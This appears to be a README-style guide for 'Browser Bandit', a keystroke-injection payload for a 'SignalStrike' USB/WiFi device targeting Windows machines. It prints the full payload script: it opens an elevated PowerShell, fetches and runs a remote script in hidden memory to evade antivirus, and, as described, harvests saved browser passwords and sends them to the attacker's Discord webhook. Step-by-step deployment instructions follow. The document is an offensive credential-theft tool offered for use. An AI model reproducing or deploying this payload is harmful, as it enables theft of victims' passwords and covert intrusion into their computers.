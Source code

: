 # **Browser Bandit (SignalStrike)**


Requirements:

    hardware: Code-382 SignalStrike (store)
    Attacker: Windows/Linux/MacOS/Android/iOs with Discord installed
    Target: Windows 7/10/11

Browser Bandit can be deployed alongside the Code-382 Signal Strike. This combination leverages a PowerShell payload that executes directly in the system’s memory, bypassing antivirus detection and eliminating the need to write files locally. The PowerShell script then downloads Nirsoft’s WebBrowserPassView application, runs it, and collects any discovered passwords. The resulting password data is saved in a .txt file, which is then transmitted to the attacker’s Discord Webhook.

1. Create a Discord Webhook

To set up a Discord webhook, follow these steps:

    Create a new Discord server (if you don’t have one already).
    Right-click on the server icon and select Server Settings.
    Navigate to Integrations > New Webhook.

    Copy the webhook link and save it somewhere safe for later use.

2. Download Payload.txt

Next, you need to download Payload.taxt. You can get it either from the Code-382 GitHub repository or by copying the code provided below.

In the Payload.txt file, locate line 12 and replace <DISCORD WEBHOOK HERE> with your actual Discord webhook URL (without the angle brackets <>).

Payload.txt (Code-382 Github)

DELAY 100
GUI d
GUI r
DELAY 500
STRING powershell
CONTROL SHIFT ENTER
DELAY 3000
ALT Y
ENTER

DELAY 3000
STRING $webhook = '<DISCORD WEBHOOK HERE>'
ENTER
SPACE
STRING Start-Process powershell -ArgumentList "-NoProfile -WindowStyle Hidden -Command `$webhook='$webhook'; iex (iwr 'https://raw.githubusercontent.com/Code-382/Payload-Depot/main/SignalStrike/Browser%20Bandit/BrowserBandit.txt').Content" -NoNewWindow
ENTER

3. Upload Your Payload to SignalStrike

    Plug in your SignalStrike device.
    Connect to its WiFi network (Default SSID: SignalStrike, Password: SignalStrike).
    Open a web browser and go to 192.168.4.1 to access the control panel.
    Create a new payload and name it “Browser Bandit.”
    Paste your modified Payload.txt (with the webhook) into the text box provided.
    Save the payload and execute it.

